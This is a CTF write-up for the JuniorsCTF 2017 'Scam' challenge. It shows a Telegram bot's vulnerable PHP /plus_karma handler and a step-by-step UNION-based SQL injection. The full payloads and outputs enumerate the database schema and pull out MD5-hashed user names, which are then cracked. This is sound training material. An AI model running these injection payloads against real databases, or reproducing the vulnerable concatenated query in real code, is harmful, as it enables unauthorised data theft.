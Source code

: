 ```yaml
---
layout: post
title:  "JuniorsCTF 2017 - Scam"
date:   2017-12-05 13:30
categories: [JuniorsCTF2017]
tags: [Web]
author: jbz
---
```


In this scenario, we must discover `first_name` and `second_name` of an anonymous h4x0r chat which uses a Telegram bot to manage the interface the users can interact with.

Target bot is referred with `@anon_hackers_bot` and, just after the main setup, it shows us the available commands list and a welcome message:

    Hello, d19e1113955c798a4b321c6bddbd025b d41d8cd98f00b204e9800998ecf8427e.
    Show/update chat: /chat
    Send message: /send hello
    Plus/minus karma: /plus_karma id, /minus_karma id
    Top 15 users: /top
    THis bot need for anonymous communication.
    Our advantages:
    + Chat ONLY for elite hackers
    + NO FBI, NO ADMINS, NO FSB, NO ADS
    + Messages self-destruct in 5 minutes
    + You can edit karma members in chat
    More info type about


Looking at this description we can deduce that:

 - this chat manages a list of temporary messages users can interact with using direct communications to the bot
 - there is a reputation management system that uses the `karma` value as unity
 - there are two strange hashes preceded by a "Hello, " message that could make us think `d19e1113955c798a4b321c6bddbd025b` and `d41d8cd98f00b204e9800998ecf8427e` are informations derived by our profile

Neverthless, the situation is still unclear and we need more informations about the environment we must exploit. So, just try to use the `/about` (very usefull) command and see what spits it out:

    THis bot need for anonymous communication. http://wallscollection.net/wp-content/uploads/2016/12/Anonymous-Wallpaper-Hd-For-Desktop-.jpg
    Our advantages:
    + Chat ONLY for elite hackers
    + NO FBI, NO ADMINS, NO FSB, NO ADS
    + Super encrypt (MD5) your name and surname
    + Messages self-destruct in 5 minutes
    + You can edit karma members in chat
    + Open Source! https://gist.github.com/dragon996/d6a4d77e175cfe26853a94057096915e (https://gist.github.com/testpnz/aaaab66f09c6f9efb54f05b642d92597)

Great! We have the bot source code! Just have a look: [gist](https://gist.github.com/dragon996/d6a4d77e175cfe26853a94057096915e)
 
After a little bit of source analysis seems clear that this bot leans on a SQL database and there is just a "little" problem with the input validation in the function that interact with karma points. This probably leads to a *SQL Injection vulnerability*.  
The vulnerable piece of code we'll exploit is:

    <?php
    else if (mb_substr($text, 0, 11) == '/plus_karma')
     {
     $search_time = $mysqli->query("SELECT last_time2 FROM `users` WHERE `telegram_id`=".$chat_id." LIMIT 1");
     $row = $search_time->fetch_row();
     $time_now = time();
     if ($row[0]+(60*5)>time())
     {
     $message = 'Попробуйте сделать +1 к карме через 5 минут!';
     sendMessage($chat_id, $message);
     die();
     }
     
     $resultStr = str_replace("/plus_karma ", "", $text);
     
     $stmt = $mysqli->prepare("UPDATE `users` SET karma=karma+1 WHERE `id`=?");
     $stmt->bind_param("i", $resultStr);
     $stmt->execute();
     $stmt->close();
     
     $search_karma = $mysqli->query("SELECT karma FROM `users` WHERE `id`=".$resultStr." LIMIT 1");
     $row = $search_karma->fetch_row();
     
     $mysqli->query("UPDATE `users` SET last_time2=".$time_now." WHERE `telegram_id`=".$chat_id."");
     
     $message = 'Вы успешно добавили +1 к карме id'.$resultStr.'
    Его карма: '.$row[0].'';
     sendMessage($chat_id, $message);
     }
     ?>  

So, a string like `/plus_karma 13 {SQL command} #-- -` should be correctly executed. We only have one limitation: a second karma request cannot be done in a range of 2 minutes from the first one.  
To ensure this vulnerability can be exploited, just try to send some simple commands and analyze the resulting output:

    /plus_karma 13 union select version() LIMIT 1,1 #-- -

    You have successfully added +1 to karma id13 union select version() LIMIT 1,1 #-- -
    His karma: 10.0.31-MariaDB-0ubuntu0.16.04.2s

So the output is reflected corectly and we can go on just dump the database schema to have the possibility to directly query the information we're looking for. These are the steps taken:

    /plus_karma -13 union select database() #-- -
    You have successfully added +1 to karma id-13 union select database() #-- -
    His karma: tg_bot

    /plus_karma -13 union select count(table_name) from information_schema.TABLES #-- -
    You have successfully added +1 to karma id-13 union select count(table_name) from information_schema.TABLES #-- -
    His karma: 72

    /plus_karma -13 union select table_name from information_schema.TABLES LIMIT 71,1 #-- -
    You have successfully added +1 to karma id-13 union select table_name from information_schema.TABLES LIMIT 71,1 #-- -
    His karma: users

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    His karma: id

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users' LIMIT 2,1;#-- -
    His karma: first_name

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users' LIMIT 3,1;#-- -
    His karma: last_name

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users' LIMIT 4,1;#-- -
    His karma: state﻿

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users' LIMIT 5,1;#-- -
    His karma: karma

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users' LIMIT 6,1;#-- -
    His karma: last_time

    ﻿﻿﻿/plus_karma -13 UNION SELECT column_name FROM information_schema.columns WHERE `table_schema`=DATABASE() AND `table_name`='users';#-- -
    ﻿You have successfully added +1 to karma id-13 UNION SELECT column_nameFROM information_schema.columns  WHERE `table_schema`=DATABASE() AND `table_name`='users' LIMIT 7,1;#-- -
    His karma: last_time2

At this point, we know the database schema portion we are interested in and it's time to look for the user having `id=13`.
     
    /plus_karma -13 UNION SELECT concat(first_name,'||',last_name) FROM tg_bot.users WHERE `id`=13;#-- -
    You have successfully added +1 to karma id-13 UNION SELECT concat(first_name,'||',last_name) FROM tg_bot.users WHERE `id`=13;#-- -
    His karma: 61409aa1fd47d4a5332de23cbf59a36f||3dba15fad60b23675fe9b01b716413f

Taking a look at the source code, it's possible to figure out what the resulting output strings are: ﻿`$first_name = md5($response['message']['chat']['first_name']);$last_name = md5($response['message']['chat']['last_name']);`, so we need to guess the clear values.  
Using hashkiller, we can revert them and observe that: `$first_name = 'John'` and `$last_name  = 'Cottrell'`.
Final flag is: ﻿`John Cottrell﻿`.
